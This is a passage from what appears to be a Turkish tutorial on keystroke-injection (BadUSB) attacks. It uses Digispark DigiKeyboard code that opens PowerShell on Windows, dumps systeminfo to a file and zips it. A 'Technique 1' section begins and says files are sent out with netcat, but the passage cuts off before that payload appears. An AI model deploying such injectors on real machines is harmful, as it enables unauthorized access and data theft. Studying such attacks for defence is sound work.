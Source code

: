 Sondaki döngü ile kodları tekrar başa sarmasını engellemiş oluyoruz. Her komutun sırasıyla çalıştığından emin olmak için aralara `delay` ile bekletme fonksiyonu koyuyoruz. Bekletilecek süre bilgisayar hızına göre değişebilir.

Diğer örnek ile arşivleme işleminin nasıl yapılacağını görelim.

```
#define kbd_tr_tr
#include "DigiKeyboard.h"

void setup() {
  // put your setup code here, to run once:

}

void loop() {
  // put your main code here, to run repeatedly:
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(6000);
  DigiKeyboard.print("powershell");
  DigiKeyboard.delay(4000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(4000);
  DigiKeyboard.print("systeminfo > info.txt");
  DigiKeyboard.delay(4000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(7000);
  DigiKeyboard.print("Compress-Archive -Path ./info.txt -DestinationPath ./info.zip");
  DigiKeyboard.delay(6000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
  for (;;){
    /*lesgo*/
  }
}
```

Görüldüğü üzere klavye komutları ile işlemler yapıldığı için genel olarak powershell ile cmd betikleri kullanılıyor. Burada yapabilecekleriniz yalnızca terminal hakimiyetinizle ve hayal gücünüzle sınırlı. 

Peki bir hacker hangi senaryoları kullanıyor? Şimdi bu senaryolara bir göz atalım.

### [](#header-3)Teknik 1

Bilgisayardaki dosyaları çekmek için örnekteki gibi netcat dosyası alınıyor ve dosyalar netcat ile gönderiliyor olabilir. 

```
#define kbd_tr_tr
#include "DigiKeyboard.h"

void setup() {
  // put your setup code here, to run once:

}

void loop() {
  // put your main code here, to run repeatedly:
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell");
  DigiKeyboard.delay(500);
```
